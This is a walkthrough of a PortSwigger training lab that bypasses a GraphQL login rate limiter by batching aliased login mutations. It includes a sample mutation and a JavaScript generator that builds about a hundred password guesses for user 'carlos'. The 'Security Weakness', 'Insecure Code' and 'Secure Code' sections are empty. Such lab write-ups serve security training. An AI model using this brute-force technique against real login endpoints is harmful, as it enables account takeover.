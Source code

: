 ## Bypassing GraphQL brute force protections

### Objective:
- The user login mechanism for this lab is powered by a GraphQL API. 
- The API endpoint has a rate limiter that returns an error if it receives too many requests from the same origin in a short space of time.
- To solve the lab, brute force the login mechanism to sign in as carlos. Use the list of [authentication lab passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) as your password source.

### Security Weakness:

### Exploitation Methodology:

1. In Burp's browser, access the lab and select **My account**.
2. Attempt to log in to the site.
3. In Burp, go to **Proxy > HTTP history**. Note that login requests are sent as a GraphQL mutation.
4. Right-click the login request and select **Send to Repeater**.
5. In Repeater, attempt some further login requests. Note that after a short period of time the API starts to return a rate limit error.
6. Craft a request that uses aliases to send multiple login mutations in one message. See the lab instructions for a tip that will make this process less time-consuming.
    Bear the following in mind when constructing your request:
    - The list of aliases should be contained within a **`mutation {}`** type.
    - Each aliased mutation should have the username **`carlos`** and a different password from the authentication list.
    - If you are modifying the request that you sent to Repeater, delete the variable dictionary and **`operationName`** field from the request before sending. You can do this from Repeater's **Pretty** tab.
    - Ensure that each alias requests the **`success`** field, as shown in the simplified example below:
```js
	mutation { 
		bruteforce0:login(input:{password: "123456", username: "carlos"}) { 
			token 
			success 
		} 
		
		bruteforce1:login(input:{password: "password", username: "carlos"}) { 
			token 
			success 
		} 
		
		... 
		
		bruteforce99:login(input:{password: "12345678", username: "carlos"}) { 
			token 
			success 
		} 
	}
```

7. Click **Send**.
8. Notice that the response lists each login attempt and whether its login attempt was successful.
9. Use the search bar below the response to search for the string **`true`**. This indicates which of the aliased mutations was able to successfully log in as **`carlos`**.
![](./Images/70edd26f70fdf2a5f5c60e9533d5941d.png)
10. Check the request for the password that was used by the successful alias.
11. Log in to the site using the **`carlos`** credentials to solve the lab.

#### Tip
The below example JavaScript builds a list of aliases corresponding to our list of authentication lab passwords and copies the request to your clipboard. To run this script:

1. Open the lab in Burp's browser.
2. Right-click the page and select **Inspect**.
3. Select the **Console** tab.
4. Paste the script and press Enter.

You can then use the generated aliases when crafting your request in Repeater.

```javascript
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`
.split(',').map((element,index)=>` 
bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
	token 
	success 
	} 
`.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
```

### Insecure Code:

### Secure Code:
